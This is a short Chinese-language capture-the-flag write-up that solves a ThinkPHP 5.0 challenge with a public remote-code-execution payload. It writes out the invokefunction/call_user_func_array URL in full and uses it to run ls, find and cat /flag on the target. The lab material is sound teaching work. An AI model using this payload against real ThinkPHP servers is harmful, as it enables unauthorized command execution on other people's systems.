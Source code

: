 # php_rce

难度系数: 2.0

本题显示信息: 版本 `ThinkPHP V5.0`.

因为题目是 `php rce`, 上网查一些关于 `ThinkPHP RCE payload`, 找到 [https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection](https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection). 我用的是 `thinkphp 5.0.21` 的 `payload`:

`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=`

我们可以执行任何命令在最后的等于符号后面.

用 `ls` 命令: `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls` 查看所在 `path` 有哪些文件, 但没有收获.

于是我试着用 `find` 命令 `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20flag` 寻找字 `flag`, 得到 `flag` 在 `/flag` 文件中.

最后只需要直接读 `flag` 文件: `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag`
